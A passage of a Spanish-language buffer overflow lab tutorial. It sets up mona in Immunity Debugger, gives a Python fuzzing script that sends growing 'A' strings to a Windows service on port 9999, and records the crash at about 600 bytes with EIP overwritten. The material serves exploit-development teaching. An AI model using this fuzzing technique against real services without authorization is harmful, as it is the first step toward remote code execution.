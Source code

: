 Establecemos el directorio donde está el binario y lo establecemos como directorio de trabajo: !mona config -set workingfolder C:**\**Users**\**adrian**\**Desktop**\**bof

Volvemos a ampliar la pestaña que tiene cuatro ventanas

Vamos a la Kali al terminal y utilizamos un script (nano fuzzing.py):

- ---------------------------------------------------------------------------------------------------------------------------------------------------------------

`#!/usr/bin/env python3`

`import socket, time, sys`

`ip = "192.168.0.39"`

`port = 9999`

`timeout = 1`

`prefix = ""`

`string = prefix + "A" * 100`

`while True:`

`try:`

`with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:`

`s.settimeout(timeout)`

`s.connect((ip, port))`

`s.recv(1024)`

`print("Fuzzing with {} bytes".format(len(string) - len(prefix)))`

`s.send(bytes(string, "latin-1"))`

`s.recv(1024)`

`except:`

`print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))`

`sys.exit(0)`

`string += 100 * "A"`

`time.sleep(1)`

- ---------------------------------------------------------------------------------------------------------------------------------------------------------------

Cambiamos la IP por la de la máquina windows y el puerto por si hay que modificarlo

Ejecutamos con python3 fuzzing.py y observamos que crashea por ejemplo a los 600 bytes y lo anotamos

Abrimos el immunity debugger y hay que ver el número de EIP y apuntamos el número

Lo ejecutamos y vemos que el programa crashea a los 600 bytes:

Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir:
